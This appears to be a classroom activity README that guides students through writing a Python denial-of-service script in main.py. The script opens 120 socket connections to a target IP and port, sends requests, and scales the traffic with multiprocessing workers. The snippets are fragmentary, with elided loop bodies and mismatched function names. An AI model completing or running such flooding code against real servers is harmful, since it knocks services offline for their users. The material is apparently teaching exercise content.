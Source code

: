 Perform the DDOS Attack
======================
In this activity, you will perform DDOS attacks by making multiple connections and sending server request at the same time from the all the connections.


<img src= "https://s3.amazonaws.com/media-p.slid.es/uploads/2071954/images/10973663/Slide-11_v2.gif" width = "auto" height = "auto">




Follow the given steps to complete this activity.




Follow the given steps to complete this activity:
1. Perform DDOS attack




* Open file `main.py`.




* Set the number of sockets and create a list to store socket messages.


```sh
number_of_sockets = 120
sockets = []
```
   
* Iterate through each connection to connect and perform DOS using a for loop.


```sh
for i in range(number_of_sockets):
..
for ddos in sockets:
..
```
   
* Pass the connection count to the ddos_attacker() function call.
 
```sh
ddos_attack(ip_address, port, number_of_sockets)
```
   




* Close the connection for each socket once the attack is performed.


```sh
for conn_close in sockets:
    try:
        conn_close.close()
    except:
        pass
```
   




* Increase the network traffic by performing multiple attacks from multiple connections using multiprocessing.Process() method.


```sh
for i in range(number_of_workers):
    worker = multiprocessing.Process(target= ddos_attack, args=(ip_address, port, number_of_sockets))
    workers.append(worker)
```
   
* Save and run the code to check the output.




